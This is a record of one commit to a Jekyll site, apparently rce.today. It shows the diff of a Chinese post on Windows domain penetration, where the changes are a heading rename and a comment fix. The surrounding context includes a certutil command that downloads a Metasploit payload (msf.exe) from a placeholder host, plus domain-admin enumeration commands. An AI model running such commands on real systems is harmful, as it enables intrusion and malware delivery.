

Before and after one commit to fazzzzzzz/rce.today, a Jekyll site: the page built from _posts/2020-07-04-Windows域渗透.md, in a window 1280 px wide and 1400 px high, scrolled down 630 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update 2020-07-04-Windows域渗透.md

````diff
--- a/_posts/2020-07-04-Windows域渗透.md
+++ b/_posts/2020-07-04-Windows域渗透.md
@@ -33,7 +33,7 @@ cmd.exe /c certutil -urlcache -split -f http://ip:port/msf.exe C:\ProgramData\a.
 1. 网络架构
 2. 敏感信息
 
-## 目标网络架构
+## 网络架构
 
 ### 是否出网
 
@@ -159,7 +159,7 @@ net user		#全部用户
 query session		#用户登陆情况
 
 net user /domain		#查看域用户
-net group "domain admins" /domain 域管
+net group "domain admins" /domain		#域管
 ```
 
 
````
Also changed, not shown: other parts of _posts/2020-07-04-Windows域渗透.md (+3 -3 lines).
